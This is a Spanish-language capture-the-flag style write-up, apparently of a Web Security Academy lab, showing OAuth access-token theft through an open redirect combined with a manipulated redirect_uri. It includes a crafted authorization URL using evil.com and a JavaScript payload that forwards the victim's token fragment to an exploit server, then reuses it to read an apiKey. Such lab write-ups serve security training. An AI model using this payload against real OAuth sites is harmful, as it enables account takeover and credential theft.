

## LAB

Al realizar el proceso de inicio de sesión, vemos que en este se tiene un login y posteriormente vincular nuestra cuanta con una red social.









Luego observamos que se tiene la cuenta vinculada.



En los solicitudes al servidor vemos una en especifico, el que realiza una solicitud y este realiza un redirect.



Tambien teniendo otra, en el que se realiza la solicitud, realizando un redirect, pero en este caso se puede ver en el parámetro un token. 



Otras de las solicitudes interesantes, tenemos a una donde se tiene el valor de `bearer` y al enviarse, este devuelve el token.



El valor del bearer, es el mismo que el token. Por lo que si se pudiera obtener ese valor del usuario administrador se puede solicitar la apiKey.

 En la solicitud en el que se obtiene el token se modifica la url de `redirect_uri`, pero la solicitud no es tomada y es rechazada debido a que se realiza una validación. Esto con el fin de introducir en este valor nuestro url del exploit server, y mediante un iframe o javascript enviar a la victima y este al abrir realiza la solicitud a nuestro servidor.
 


Al enumerar un poco el sitio web vemos que se tiene un apartado de `Next post`, al realizar una en este enlace veremos que se tiene una ruta `path`



Al realizar una consulta `/post/next?path=` e insertando un dominio se procede a realizar la solicitud y este procede a redirigirnos al dominio `evil.com`.





```c
https://oauth-0a9000d50394d89e8037514a02900019.oauth-server.net/auth?client_id=lnj8owea9an2cfy9jjgfg&redirect_uri=https://0a2d006003ddd81c8044539600a6005c.web-security-academy.net/oauth-callback/../post/next?path=http://evil.com&response_type=token&nonce=-538558905&scope=openid%20profile%20email
```



Por lo que ahora podemos usar la url del exploit server.





Al realizar la solicitud vemos en los logs, que no se observa parte de los parámetros ni valores del token, esto es debido a que se tiene un `#` antes de ello.



Podemos usar `document.location.hash ` para obtener la los parametros  con el `#` incluido y luego `document.location.hash.substr(1)` para eliminar el `#` con el fin de que este haga una solicitud a nuestro exploit server y asi podamos verlo en los logs del exploit server.



Por lo que podemos el siguiente script, el que contempla  

```c
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-0a9000d50394d89e8037514a02900019.oauth-server.net/auth?client_id=lnj8owea9an2cfy9jjgfg&redirect_uri=https://0a2d006003ddd81c8044539600a6005c.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0ab90035030bd8e6806852fa014c0055.exploit-server.net/exploit&response_type=token&nonce=-538558905&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```

Ahora si podemos ver el token y los valores que viajan en los parametros.



Teniendo el valor del token y reemplazando en el `Bearer`, podemos ver que al realizar la solicitud obtenemos la `apiKey`



```c
xSklJiNlqSZYAeID-GlRAVFl5mVpqs4C0_CYEWZd1mC
```



